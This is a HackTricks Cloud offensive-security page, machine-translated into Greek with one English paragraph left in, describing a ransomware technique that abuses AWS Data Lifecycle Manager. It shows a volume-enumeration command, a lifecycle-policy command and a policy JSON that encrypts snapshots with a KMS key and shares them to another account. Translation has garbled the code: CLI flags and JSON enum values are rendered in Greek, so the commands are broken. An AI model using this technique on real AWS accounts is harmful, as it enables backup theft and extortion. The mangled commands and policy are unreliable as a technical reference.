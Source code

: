 # AWS - Διαχειριστής Κύκλου Ζωής Δεδομένων

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο Hacking του AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Εκπαίδευση HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο Hacking του GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Εκπαίδευση HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε** 💬 [**στην ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα χάκερ κάνοντας υποβολή PRs** στα [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο GitHub.

</details>
{% endhint %}

## Διαχειριστής Κύκλου Ζωής Δεδομένων (DLM)

### `EC2:DescribeVolumes`, `DLM:CreateLifeCyclePolicy`

Μια επίθεση ransomware μπορεί να εκτελεστεί με τον κρυπτογράφηση όσων περισσότερων EBS volumes είναι δυνατόν και στη συνέχεια διαγράφοντας τις τρέχουσες EC2 instances, EBS volumes και αντιγράφων ασφαλείας. Για να αυτοματοποιηθεί αυτή η κακόβουλη δραστηριότητα, κάποιος μπορεί να χρησιμοποιήσει το Amazon DLM, κρυπτογραφώντας τα αντίγραφα ασφαλείας με ένα KMS κλειδί από έναν άλλο λογαριασμό AWS και μεταφέροντας τα κρυπτογραφημένα αντίγραφα ασφαλείας σε διαφορετικό λογαριασμό. Εναλλακτικά, μπορεί να μεταφέρει αντίγραφα ασφαλείας χωρίς κρυπτογράφηση σε έναν λογαριασμό που διαχειρίζεται και στη συνέχεια να τα κρυπτογραφήσει εκεί. Αν και δεν είναι απλό να κρυπτογραφήσετε απευθείας υπάρχοντα EBS volumes ή αντίγραφα ασφαλείας, είναι δυνατό να το κάνετε δημιουργώντας ένα νέο volume ή αντίγραφο ασφαλείας.

Αρχικά, κάποιος θα χρησιμοποιήσει ένα πρόγραμμα εντολών για να συγκεντρώσει πληροφορίες σχετικά με τα volumes, όπως το ID της instance, το ID του volume, την κατάσταση κρυπτογράφησης, την κατάσταση σύνδεσης και τον τύπο του volume.
```aws ec2 describe-volumes```

Secondly, one will create the lifecycle policy. This command employs the DLM API to set up a lifecycle policy that automatically takes daily snapshots of specified volumes at a designated time. It also applies specific tags to the snapshots and copies tags from the volumes to the snapshots. The policyDetails.json file includes the lifecycle policy's specifics, such as target tags, schedule, the ARN of the optional KMS key for encryption, and the target account for snapshot sharing, which will be recorded in the victim's CloudTrail logs.


```bash
```plaintext
aws dlm δημιουργία-πολιτικής-ζωής --περιγραφή "Η πρώτη μου πολιτική" --κατάσταση ΕΝΕΡΓΟΠΟΙΗΜΕΝΟ --arn-ρόλου-εκτέλεσης arn:aws:iam::12345678910:role/AWSDataLifecycleManagerDefaultRole --λεπτομέρειες-πολιτικής αρχείο://policyDetails.json
```
```

A template for the policy document can be seen here:
```bash
```json
{
"PolicyType": "EBS_SNAPSHOT_MANAGEMENT",
"ResourceTypes": [
"VOLUME"
],
"TargetTags": [
{
"Key": "ExampleKey",
"Value": "ExampleValue"
}
],
"Schedules": [
{
"Name": "ΗμερήσιεςΛήψειςΣτιγμιότυπων",
"CopyTags": true,
"TagsToAdd": [
{
"Key": "ΔημιουργόςΣτιγμιότυπου",
"Value": "DLM"
}
],
"VariableTags": [
{
"Key": "ΚέντροΚόστους",
"Value": "Οικονομικά"
}
],
"CreateRule": {
"Interval": 24,
"IntervalUnit": "ΩΡΕΣ",
"Times": [
"03:00"
]
},
"RetainRule": {
"Count": 14
},
"FastRestoreRule": {
"Count": 2,
"Interval": 12,
"IntervalUnit": "ΩΡΕΣ"
},
"CrossRegionCopyRules": [
{
"TargetRegion": "us-west-2",
"Encrypted": true,
"CmkArn": "arn:aws:kms:us-west-2:123456789012:key/your-kms-key-id",
"CopyTags": true,
"RetainRule": {
"Interval": 1,
"IntervalUnit": "ΗΜΕΡΕΣ"
}
}
],
"ShareRules": [
{
"TargetAccounts": [
"123456789012"
],
"UnshareInterval": 30,
"UnshareIntervalUnit": "ΗΜΕΡΕΣ"
}
]
}
],
"Parameters": {
"ExcludeBootVolume": false
}
}
```
```

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
